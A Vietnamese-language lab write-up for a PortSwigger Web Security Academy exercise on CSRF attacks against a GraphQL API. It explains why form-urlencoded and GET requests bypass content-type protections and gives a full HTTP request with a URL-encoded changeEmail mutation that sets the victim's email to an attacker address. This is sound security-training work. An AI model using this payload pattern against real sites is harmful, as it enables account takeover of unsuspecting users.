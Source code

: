 
## GraphQL CSRF

GraphQL có thể được sử dụng như một phương tiện tấn công CSRF, trong đó kẻ tấn công tạo ra một lỗ hổng khiến trình duyệt của nạn nhân gửi một truy vấn độc hại với tư cách là người dùng nạn nhân.

### How do CSRF over GraphQL vulnerabilities arise?

Lỗ hổng CSRF có thể phát sinh khi endpoint GraphQL không xác thực loại nội dung của các yêu cầu được gửi đến và không triển khai bất kỳ mã thông báo CSRF nào.

Các yêu cầu POST sử dụng loại nội dung là `application/json` sẽ an toàn trước nguy cơ làm giả miễn là loại nội dung đó được xác thực. Trong trường hợp này, kẻ tấn công sẽ không thể khiến trình duyệt của nạn nhân gửi yêu cầu này ngay cả khi nạn nhân truy cập vào một trang web độc hại.

Tuy nhiên, các phương pháp thay thế như GET hoặc bất kỳ yêu cầu nào có loại nội dung là `x-www-form-urlencoded` đều có thể được trình duyệt gửi đi và do đó có thể khiến người dùng dễ bị tấn công nếu điểm cuối chấp nhận các yêu cầu này. Trong trường hợp này, kẻ tấn công có thể tạo ra lỗ hổng để gửi các yêu cầu độc hại đến API.

---

### Ví dụ: Performing CSRF exploits over GraphQL

https://portswigger.net/web-security/graphql/lab-graphql-csrf-via-graphql-api

Đăng nhập `wiener:peter` và đổi email

Đổi email lần 2 bằng request vừa đổi lần 1 để thấy cùng session vẫn đổi được, không có CSRF nào áp dụng.

Để dùng CSRF cần chuyển qua `application/x-www-form-urlencoded` thì ta được POST theo dạng:

```http
POST /graphql/v1 HTTP/2
Host: 0a1f002703179ef0817f07a7005300f1.web-security-academy.net
Cookie: session=JBXlhhDBi6TQqwlWJeBVDMAi4Z82LSXN; session=JBXlhhDBi6TQqwlWJeBVDMAi4Z82LSXN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: application/json
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a1f002703179ef0817f07a7005300f1.web-security-academy.net/my-account
Origin: https://0a1f002703179ef0817f07a7005300f1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 272

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```
